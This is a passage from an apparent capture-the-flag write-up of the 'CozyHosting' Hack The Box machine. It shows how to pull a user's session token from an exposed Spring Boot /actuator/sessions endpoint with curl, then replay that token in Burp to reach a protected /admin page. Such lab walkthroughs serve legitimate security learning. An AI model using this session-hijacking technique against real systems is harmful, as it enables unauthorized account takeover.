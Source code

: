 If we look back at our previous web-directory fuzz scan, we can see that there is an __/admin__ endpoint available on the device. The original scan returned a 401 error (*Unauthorized*), our best bet here is to see if we can intercept a GET request to that endpoint in Burpsuite and then change the token there to the one assigned to kanderson.

*NOTE* - While trying to get access to the admin page I had an issue with getting my token I got to work. I then tried curling the /sessions endpoint and got a different token for kanderson than the one I previously got from visiting the endpoint in a browser. So on the box there must be something in the JS code that has the tokens that are assigned to kanderson, change every 5 or so minutes. So right before you go to intercept a GET request to the /admin endpoint, run __curl -i -k http://cozyhosting.htb/actuator/sessions__ and use the returned token in Burp to get access.

So to get access to the admin page do the following:

First get the token

```bash
(h0ax㉿kracken)-[~/htb/boxes/easy/cozy]
└─$ curl -i -k http://cozyhosting.htb/actuator/sessions
HTTP/1.1 200 
Server: nginx/1.18.0 (Ubuntu)
Date: Fri, 06 Oct 2023 22:18:17 GMT
Content-Type: application/vnd.spring-boot.actuator.v3+json
Transfer-Encoding: chunked
Connection: keep-alive
X-Content-Type-Options: nosniff
X-XSS-Protection: 0
Cache-Control: no-cache, no-store, max-age=0, must-revalidate
Pragma: no-cache
Expires: 0
X-Frame-Options: DENY

{"DED42B5E37E98F1B542B92AFD040B051":"kanderson","B6E4A042FE79F1F92BC818D696BD350F":"UNAUTHORIZED"}
```

Copy the token into burp and the forward the request

![burp](/assets/images/machines/htb/cozy/burp-jwt.png)
